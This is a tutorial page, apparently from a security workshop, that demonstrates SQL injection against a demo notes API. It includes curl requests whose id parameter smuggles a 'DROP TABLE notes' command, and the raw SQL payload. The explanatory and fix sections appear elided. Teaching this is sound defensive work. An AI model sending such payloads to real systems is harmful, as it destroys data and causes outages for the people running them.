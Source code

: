```yaml
---
bookCollapseSection: false
---
```


# Anatomy of a Vulnerability

In this section we will create a SQL injection on vulnerable code, so that we
can perform malicious actions on the application. This shows how SQL injection
works, and explains how vulnerabilities in your application can be exploited and cause
harm to your organization.

## Dropping a Table via SQL Injection

In this example, I will show how to drop the table when running a
curl request and injecting malicious commands. I will show how
to exploit the `DELETE` note api call.

First let's go over a standard flow. We can create some notes via the API:

```bash
$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "ZAP"}'

{
  "Success": "Note added!"
}

$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "YEET"}'

{
  "Success": "Note added!"
}
```

Now we can delete it with the DELETE api-call:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=2
```

Now let's see what happens when a hacker 🏴‍☠️ tries to exploit this api
path and see if they can perform some malicious activity:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=1%3B%20DROP%20TABLE%20notes
```

The above also drops the notes table, causing information loss and downtime to the application. This can
be critical to a business function.

This means that in the UI, a user can simply add the following to drop the table:

```sql
1; DROP TABLE notes;
```

### Examining the Vulnerable Code

...

### Resolution

...
